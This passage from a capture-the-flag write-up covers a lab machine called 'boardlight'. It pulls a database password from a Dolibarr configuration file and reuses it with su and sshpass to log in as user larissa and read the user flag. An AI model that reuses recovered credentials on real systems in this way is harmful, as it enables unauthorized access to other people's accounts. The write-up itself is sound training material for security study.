 ```
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';

```

The most interesting part is the database connection information, including the password “serverfun2$2023!!”.

### su / SSH

Before checking out the database, I’ll see if this password is reused for either root or larissa:

```

www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su -
Password: 
su: Authentication failure
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa
Password: 
larissa@boardlight:~$ 

```

It works for larissa. The password also works for SSH:

```

oxdf@hacky$ sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ 

```

I can now read `user.txt`:

```

larissa@boardlight:~$ cat user.txt
cbcdd575************************

```
